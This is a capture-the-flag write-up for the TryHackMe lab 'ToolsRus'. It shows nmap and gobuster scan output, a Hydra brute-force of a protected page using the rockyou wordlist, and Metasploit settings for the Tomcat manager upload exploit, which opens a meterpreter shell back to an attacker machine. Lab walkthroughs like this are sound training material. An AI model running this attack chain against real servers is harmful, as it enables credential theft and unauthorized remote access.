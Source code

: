 # TRYHACKME : ToolsRus

## RECONNAISSANCE

### NMAP
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:32:b3:93:e3:18:bd:22:02:d9:f1:21:83:9c:b2:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCljcaV7xKBzDO6fO1V8nkXaZjBQgQHWUfpo6hDUXK6bunD/+PelElWy0TouOaMIIN+vphdtvYB7pVTCTY97t+ttmmtbMQf06T4C1GsbBZi/etjn4PyKFSUxhl0SReu2Nu8Nna1FL4OLimnE4ZLH1i1EEvtcLUlawDsCEnYlAzGHoFWtMC5HNK6ODouHDOysT4IUTNy6WXfvZee8QroeuhncKI9Gu5tlzH9ctPSLj1O21pH/gGVHm2x0s1oaOrKgjOeYNwnaUbeQudPI4p3Hh9I5bqjG73pqXc/tvZRQVErWgyAyZW86zd+Lonr0+tx1vMjy0qef6GDz60H3SuvIIPt
|   256 3b:b8:05:90:9a:e3:ce:c3:dc:86:43:66:b0:f1:cf:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGkJoMZmqLZcNIkGMoaRCh98vAJFmEQmizcrmF5IENwsjmWFMhv7n/N/gAJEEzPEQnv28TrVH3IYoKyksMamLRE=
|   256 9c:15:87:97:63:68:9e:81:c9:f4:fc:03:50:74:47:d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEORxDZXH48lA4Ov/yjCiUkO8IPOfo567UfU1HRpZrp/
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
1234/tcp open  http    syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
8009/tcp open  ajp13   syn-ack ttl 61 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### GOBUSTER
```
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 296]
/guidelines           (Status: 301) [Size: 317] [--> http://10.10.96.219/guidelines/] 
/protected            (Status: 401) [Size: 459]
/server-status        (Status: 403) [Size: 300]
```

### Navigation

**80:** Opening `port 80` tell us that the main site is down for upgrades.

**80/guidelines:** Let us now navigate to the `/guidelines` directory. The page gave us a possible user credential: Bob.

**80/protection:** A diagram box appears which leads to a authentication page.

### HYDRA
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f  10.10.96.219 http-get /protected/ 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-17 07:18:47
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking http-get://10.10.96.219:80/protected/
[80][http-get] host: 10.10.96.219   login: bob   password: <RETRIEVE PASSWORD>        // bob uses a cute password                                          
[STATUS] attack finished for 10.10.96.219 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-17 07:19:33
```

After inputting the credentials, the site tells us that the protected page has now moved to a different port.

### PORT 1234

Let's try find this different port. Maybe it's in `port 1234`.

This is where we will use Nikto.

First we access the http page. Then input the previous credential to the host manager page to obtain the number of directories.

### NIKTA
```
$ nikta -h http://[TARGET-IP]:1234/manager/html
// The Apache-Coyote appears somewhere at the start
```

### METASPLOIT

```
$ msfconsole
// use multi/http/tomcat_mgr_upload
// set rhosts [TARGET-IP]
// set rport 1234
// set lhost [ATTACKER-MACHINE]
// set httpPassword <RETRIEVED PASSWORD>
// set httpUsername bob
> run
// once you get the session and meterpreter, retrieve the flag from root directory
```


